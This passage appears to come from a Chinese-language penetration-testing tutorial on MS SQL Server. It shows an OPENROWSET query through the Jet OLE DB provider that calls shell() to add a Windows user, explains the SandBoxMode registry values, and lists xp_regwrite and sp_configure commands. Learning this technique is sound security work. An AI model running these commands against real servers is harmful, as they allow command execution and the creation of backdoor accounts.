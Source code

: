 ```sql
select * from openrowset ('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')
```

命令执行失败。

![执行系统命令](./MsSQL/执行系统命令.png)

沙盒模式SandBoxMode参数含义：

0：在任何所有者中禁止启用安全模式

1：为仅在允许范围内

2：必须在access模式下（默认是2）

3：完全开启

openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。

恢复配置，解除沙盒模式：

第一步：

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
```

第二步：

```sql
exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
```

第三步：

```sql
exec sp_configure 'show advanced options',0;reconfigure;
```
